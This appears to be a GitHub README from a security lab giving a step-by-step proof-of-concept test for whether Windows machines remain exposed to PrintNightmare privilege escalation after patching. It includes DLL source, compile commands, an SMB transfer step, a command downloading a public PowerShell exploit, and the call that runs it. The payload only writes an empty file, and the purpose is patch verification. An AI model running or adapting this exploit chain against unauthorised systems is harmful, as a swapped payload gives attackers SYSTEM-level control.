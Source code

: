 # Test if you are still vulnerable to PrintNightmare's privesc after patching

PrintNightmare (CVE-2021-1675 / CVE 2021 34527) is an exploit that takes advantage of the AddPrintDriver function of the Spooler to execute files with high-privs.

There is some confusion around the patches released by Microsoft on 6th July 2021. It seems the RCE portion of the exploit is patched, but the privilege escalation may still be vulnerable.

We have put together a step-by-step to run a test PoC to see if the recent patch has been effective for your machine. This guide will do no damage to your machine, neither should it crash the machine or spooler. It will simply write `C:\PrintNightmare.txt`

Thanks to John Hammond and Caleb Stewart from Huntress for releasing this [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) of PrintNightmare

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If the spooler isn't running, the machine won't be vulnerabl. You can stop here and now.
Otherwise if the spooler is running, begin exploitation.

## DLL

If you trust us enough, we have a [pre-compiled DLL you can download from right here](nightmare.dll). Please check the hash matches

```bash
sha256sum nightmare.dll
#hash should be 894a086c62adbf9181e7c70f06f3d16364ce9019e9b041bc4d39f5c5193d8769
```

This DLL will just create an innocent, non-malicious file, with no contents: *C:\Printnightmare.txt*

Otherwise, you are welcome to follow the guidance below to compile the DLL yourself. Clicking the drop-down arrow below will open up compile guidance


<details>
    <summary>Compile non-malicious DLL</summary>


## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
```bash
sudo apt install gcc-mingw-w64
sudo apt install g++-mingw-w64-x86-64
```
### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to C:\

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)

</details>
 
  
## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy Exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### Check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

It doesn't matter what its contents is, it just matters that it exists. 

### For any questions, comments, and criticisms, please find us on Twitter at [LABS](https://twitter.com/jumpseclabs?lang=en) or on [MAIN](https://twitter.com/jumpsec)
